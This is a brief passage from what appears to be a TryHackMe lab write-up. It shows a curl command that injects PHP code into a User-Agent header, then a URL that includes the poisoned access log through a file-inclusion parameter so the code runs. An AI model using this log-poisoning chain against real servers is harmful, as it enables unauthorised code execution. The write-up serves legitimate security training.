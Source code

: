 For Qn 6, use the terminal to inject PHP code into the User-Agent:  
`curl -A "<?php phpinfo();?>" http://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/login.php`

Then load the log file to get the PHP code executed by visiting the following:  
`https://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/index.php?err=/var/www/html/includes/logs/app_access.log`

Scroll down to find the PHP page, and find the Webserver Hostname for Qn 6:  

![](./res/answer8.png)